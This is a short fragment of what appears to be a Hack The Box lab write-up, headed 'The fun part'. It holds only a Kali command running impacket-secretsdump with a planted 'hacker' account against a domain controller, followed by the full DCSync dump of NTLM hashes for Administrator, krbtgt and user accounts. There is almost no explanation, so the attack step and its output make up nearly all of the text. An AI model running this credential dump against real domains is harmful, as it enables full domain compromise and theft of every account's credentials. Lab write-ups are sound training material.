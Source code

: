 The fun part

On Kali:

```
impacket-secretsdump hbt.local/hacker:Pwned123@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
hacker:10103:aad3b435b51404eeaad3b435b51404ee:04ebb1d6ca2529562dc0f66cd47e6f02:::
```